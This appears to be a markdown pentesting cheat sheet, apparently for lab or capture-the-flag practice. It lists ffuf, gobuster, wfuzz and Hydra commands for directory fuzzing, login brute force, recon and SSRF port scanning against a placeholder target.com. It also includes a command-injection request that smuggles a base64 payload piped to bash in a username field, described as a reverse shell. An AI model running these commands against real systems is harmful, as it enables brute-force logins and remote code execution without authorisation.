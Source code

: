 ## 🔍 Web Fuzzing Tools

### 🔹 FFUF — Fuzzing parameters, files, login forms, subdomains
```bash
ffuf -w wordlist.txt -u http://target.com/FUZZ
```
**Examples:**
- Fuzz POST param for command injection:
```bash
ffuf -w /usr/share/wordlists/SecLists/Fuzzing/command-injection-commix.txt \
  -u http://target.com/ -X POST \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "url=FUZZ" -fw 3
```
- Login form brute force:
```bash
ffuf -w usernames.txt:USERNAME -w passwords.txt:PASSWORD -X POST \
  -u http://target.com/login \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "username=USERNAME&password=PASSWORD" -fc 401
```
- Subdomain fuzzing:
```bash
ffuf -w subdomains.txt -u http://target.com/ -H "Host: FUZZ.target.com" -fs 0
```

### 🔹 Gobuster
```bash
gobuster dir -u http://target.com/ -w wordlist.txt -x php,html,txt -t 50 --exclude-length 53
```
- DNS mode:
```bash
gobuster dns -d target.com -w subdomains.txt -t 50
```

### 🔹 Dirsearch
```bash
dirsearch -u http://target.com/ -e php,html,txt -w wordlist.txt -t 40
```

### 🔹 Feroxbuster
```bash
feroxbuster -u http://target.com/ -w wordlist.txt -x php,html -t 50 -r
```

### 🔹 Wfuzz
```bash
wfuzz -w wordlist.txt -u http://target.com/FUZZ --hc 404
wfuzz -w wordlist.txt -u http://target.com/FUZZ.php --hc 404
```
- Fuzz headers:
```bash
wfuzz -w common.txt -u http://target.com/ -H "X-Forwarded-For: FUZZ" --hc 404
```

### 🔹Link to different [[📂 Word List]] 
---

## 🧠 Fuzzing Parameters / Cookies / Headers

- Fuzz GET parameter values:
```bash
ffuf -u "http://target.com/page.php?param=FUZZ&static=value" -w wordlist.txt -mc all -fc 302 -H "Cookie: PHPSESSID=abcd"
```
- Fuzz cookies:
```bash
ffuf -w common.txt -u http://target.com/ -H "Cookie: FUZZ=1" -fs 0
```
- Fuzz headers:
```bash
wfuzz -w common.txt -u http://target.com/ -H "X-Header: FUZZ" --hc 404
```

---

## 🔑 Brute Force / Login Cracking

### 🔹 Hydra
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt target.com http-post-form \
"/login:username=^USER^&password=^PASS^:F=Login failed"
```

---

## 🔎 Recon Tools

### 🔹 WhatWeb
```bash
whatweb http://target.com
```
> Detects technologies used by a website

### 🔹 Sublist3r
```bash
sublist3r -d target.com -o subdomains.txt
```

### 🔹 SearchSploit
```bash
searchsploit keyword
```
> Searches for known exploits in Exploit-DB

---

## 🔁 API Interaction / Web Exploitation

### 🔹 Basic curl with JSON
```bash
curl -sX PUT http://target.com/api/endpoint \
  --cookie "PHPSESSID=sessionid" \
  -H "Content-Type: application/json" \
  -d '{"email": "user@htb.com", "is_admin": 1}' | jq
```

### 🔹 Reverse shell via curl + API
```bash
curl -sX POST http://target.com/api \
  --cookie "PHPSESSID=sessionid" \
  -H "Content-Type: application/json" \
  -d '{"username": "theo;echo <base64_payload> | base64 -d | bash;"}'
```
> Always encode payload in Base64 to avoid special char issues

---

## 🌐 SSRF Exploitation

### 🔹 SSRFmap
```bash
ssrfmap.py -r request.txt -p url -m portscan
```
> Exploits SSRF via given request, fuzzes the 'url' parameter, and runs internal port scanning



